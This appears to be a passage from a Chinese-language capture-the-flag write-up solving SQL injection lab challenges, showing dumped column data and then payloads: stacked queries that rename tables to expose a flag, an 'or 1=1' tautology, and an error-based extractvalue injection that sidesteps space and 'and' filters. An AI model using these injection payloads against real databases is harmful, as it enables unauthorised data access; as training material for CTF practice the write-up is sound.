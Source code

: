   ```php
    [2]=>
    string(2) "NO"
    [3]=>
    string(0) ""
    [4]=>
    NULL
    [5]=>
    string(0) ""
  }
  -----------------------------------------------------------------------------------------------
  array(6) {
    [0]=>
    string(4) "flag"
    [1]=>
    string(12) "varchar(100)"
    [2]=>
    string(2) "NO"
    [3]=>
    string(0) ""
    [4]=>
    NULL
    [5]=>
    string(0) ""
  }
  
  ```

  发现`words`有`id`和`data`列，而`1919810931114514`有`flag`列。显然答案就是`flag`里面的内容，但问题是`select`被正则匹配阻止了注入，所以不能通过这样的方式来查询`flag`的内容。但可以发现，输入框的内容是输出`words`表的内容，所以考虑吧`1919810931114514`的表名改为`words`，然后通过万能密码来获得`flag`

- 修改表名

  ```
  1';
  rename table `words` to words2;
  rename table `1919810931114514` to words;
  alter table words change flag id varchar(100);
  show tables; 
  show columns from words;# 
  ```

- 获得答案

  ```
  1' or 1=1 #
  ```

#### 2.[极客大挑战 2019]HardSQL1

这道题发现万能密码、联合注入、堆叠注入、双写绕过都行不通。但可以使用报错注入，但还会过滤空格和and，所以用`^`或`|`来连接

- 首先查看数据库名

  ```
  1'^extractvalue(1,concat(0x7e,(database())))#
  ```
